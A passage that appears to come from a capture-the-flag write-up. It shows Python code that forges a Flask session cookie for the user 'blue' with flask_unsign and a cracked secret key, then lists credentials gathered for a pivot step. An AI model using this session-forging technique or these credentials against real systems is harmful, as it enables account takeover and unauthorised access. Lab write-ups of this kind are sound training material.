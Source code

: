 ```python
from flask_unsign import session

KEY = 'secret123'
COOKIE = {"logged_in":True,"username":"blue"}

__jwt = session.sign(
    value=COOKIE,
    secret=KEY,
    legacy=False)
```

The private notes of user "blue" have sensitive information:

<img src="images/leak.png" style="display:block; max-width: 32vw; margin-left: auto; margin-right: auto;">

## Pivoting

So far, we've gathered the following credentials:

```
blue blue@Noter!
ftp_admin
```
